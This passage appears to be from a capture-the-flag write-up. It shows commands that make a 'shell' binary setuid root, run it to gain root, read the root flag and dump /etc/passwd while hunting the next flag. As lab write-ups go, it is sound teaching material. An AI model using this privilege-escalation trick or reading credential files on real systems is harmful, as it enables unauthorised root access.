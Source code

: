 Then set the executable up on our host:

{% highlight bash %}
chown root:root shell
chmod +s shell
{% endhighlight %}

Then run the exploit:

{% highlight bash %}
./shell
whoami
root
{% endhighlight %}

And for the root flag:

{% highlight bash %}
cd /
locate flag.txt
cat /root/flag.txt
807307b49314f822985d0410de7d8bfe
{% endhighlight %}


## Flag 3

Now that I had root (and it's flag) time to start looking around more...

{% highlight bash %}
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:106:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
bind:x:104:114::/var/cache/bind:/bin/false
postfix:x:105:115::/var/spool/postfix:/bin/false
dovecot:x:106:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:107:118:Dovecot login user,,,:/nonexistent:/bin/false
landscape:x:108:119::/var/lib/landscape:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:110:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
avahi:x:111:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
colord:x:112:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
kippo:x:1001:27::/home/kippo:/bin/bash
statd:x:113:65534::/var/lib/nfs:/bin/false
systemd-timesync:x:114:125:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:115:126:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:116:127:systemd Resolver,,,:/run/systemd/resolve:/bin/false